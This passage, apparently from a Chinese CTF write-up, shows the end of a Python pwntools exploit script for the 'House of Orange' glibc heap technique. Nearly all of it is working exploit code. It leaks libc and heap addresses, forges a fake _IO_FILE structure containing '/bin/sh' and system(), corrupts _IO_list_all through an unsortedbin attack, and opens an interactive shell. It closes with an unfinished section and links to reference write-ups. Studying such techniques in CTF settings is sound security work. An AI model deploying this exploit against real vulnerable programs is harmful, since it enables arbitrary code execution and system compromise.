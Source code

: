 ```python
    system_addr = libc_addr + libc_file.symbols['system']
    log.info("main_arena_addr:{addr}".format(addr=hex(main_arena_addr)))
    log.info("libc_addr:{addr}".format(addr=hex(libc_addr)))
    log.info("_IO_list_all_addr:{addr}".format(addr=hex(_IO_list_all_addr)))
    log.info("system_addr:{addr}".format(addr=hex(system_addr)))
    upgrade_the_house(exp_file, 0x10, "a"*0x10, 30, 2)
    see_the_house(exp_file)
    recv_value = exp_file.recvuntil("Price of orange :").split("a" * 0x10)[1][0:6]
    heap_addr = u64(recv_value + "\x00" * 2)
    log.info("heap_addr:{addr}".format(addr=hex(heap_addr)))

    payload_2 = "b" * 0xeb0

    fake_file = '/bin/sh\x00'+p64(0x61)
    #'/bin/sh\x00' ; to smallbin 0x60 (_chain)
    fake_file += p64(main_arena_addr + 88) + p64(_IO_list_all_addr - 0x10) 				#unsortedbin attack
    fake_file += p64(0)+p64(1) 
    #_IO_write_base ; _IO_write_ptr
    fake_file = fake_file.ljust(0xc0,'\x00')
    fake_file += p64(0) 
    #mode<=0
    fake_file += p64(0x0) *2
    fake_file += p64(heap_addr + 0xfa0)
    fake_file += p64(0x0) * 3
    fake_file += p64(system_addr) * 1
    payload_2 += fake_file
    upgrade_the_house(exp_file, 0xfff, payload_2, 30, 2)

    exp_file.sendline(str(1))
    # attach(exp_file)
    exp_file.interactive()


if __name__ == '__main__':
    main()
```



# 0x2 未完待续…

未完待续…



# 0x3 Reference

- [http://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html](http://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html)
- [https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/)
- [https://veritas501.space/2017/12/13/IO%20FILE%20%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/#more](https://veritas501.space/2017/12/13/IO%20FILE%20%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/#more)



